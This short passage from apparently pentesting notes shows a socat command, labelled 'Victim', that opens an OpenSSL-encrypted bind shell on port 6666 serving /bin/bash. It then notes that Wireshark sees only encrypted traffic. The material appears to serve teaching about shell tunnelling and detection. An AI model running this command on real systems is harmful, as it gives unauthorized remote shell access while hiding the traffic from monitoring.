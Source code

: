 


Victim&#x20;

```bash
socat -d -d -v openssl-listen:6666,cert=bind.pem,fork,verify=0 exec:/bin/bash
```

<figure><img src="../../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

### Wireshark

> Data is Encrypted Using openssl
